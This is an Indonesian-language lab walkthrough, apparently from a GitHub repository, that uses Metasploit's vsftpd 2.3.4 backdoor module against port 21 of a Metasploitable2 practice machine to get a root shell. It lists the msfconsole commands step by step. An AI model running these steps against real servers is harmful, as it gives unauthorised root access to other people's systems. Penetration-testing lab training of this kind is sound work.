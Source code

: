 # Exploit Port 21 (FTP)
- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20FTP/ftp%201.JPG)

- Cari modul untuk exploit `vsftpd 2.3.4`
```sh
search vsftpd 2.3.4
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20FTP/ftp%202.JPG)

- Gunakan modul `exploit/unix/ftp/vsftpd_234_backdoor` untuk exploit `vsftpd 2.3.4`
```sh
use exploit/unix/ftp/vsftpd_234_backdoor
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20FTP/ftp%203.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini hanya terdapat 2 parameter yaitu `RHOSTS` dan `RPORT` yang secara default terisi 21
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20FTP/ftp%204.JPG)

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20FTP/ftp%205.JPG)

- Jalankan modul exploit
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20FTP/ftp%206.JPG)

- Setelah payload berhasil dijalankan di dapat akses root

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20FTP/ftp%207.JPG)